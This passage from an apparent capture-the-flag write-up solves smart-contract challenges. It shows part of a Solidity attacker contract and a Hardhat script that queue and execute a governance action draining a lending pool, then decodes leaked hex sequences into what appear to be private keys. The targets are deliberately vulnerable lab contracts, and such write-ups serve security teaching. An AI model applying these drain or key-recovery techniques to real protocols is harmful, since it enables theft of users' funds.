 ```sol:contracts/attacker-contracts/selfie/SelfieAttacker.sol
            );

        simpleGovernance.queueAction(address(selfiePool), data, 0);

        bool success = governanceToken.transfer(address(selfiePool), amount);
        require(success, "token transfer failed");
    }
}
```

This time, we have to make two transactions. The first will queue the action to drain the funds and then wait two days; the second will execute the queued action. Deploy, wait, and then attack:

```js:test/selfie/selfie.challenge.js
    /** CODE YOUR EXPLOIT HERE */
    const SelfieAttackerFactory = await ethers.getContractFactory('SelfieAttacker', attacker);
    const selfieAttacker = await SelfieAttackerFactory.deploy(this.pool.address, this.governance.address, attacker.address);
    await selfieAttacker.attack(TOKENS_IN_POOL);

    await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // wait 2 days

    // assuming action ID is 1 because no other actions were queued here before
    // in a real-life event, this value can be read from the blockchain
    await this.governance.executeAction(1);
```

## Challenge #7 - Compromised

This one is a bit different. Although the title itself is a big hint. We say a private key is compromised, when an unauthorized entity determines what the private key is. The server response is returning a sequence of bytes. In JavaScript this can be represented by a [Buffer](https://nodejs.org/api/buffer.html#buffer). The only way to tackle this challenge is to guess. We can try to manipulate the data and hope to get something interesting.

### Solution

We have two lines of bytes sequences. Let's decode them:<br/>

```
First sequence: 4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

Second sequence: 4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

After decoding it we get this string:<br/>

```
First hex: MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5
Second hex: MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

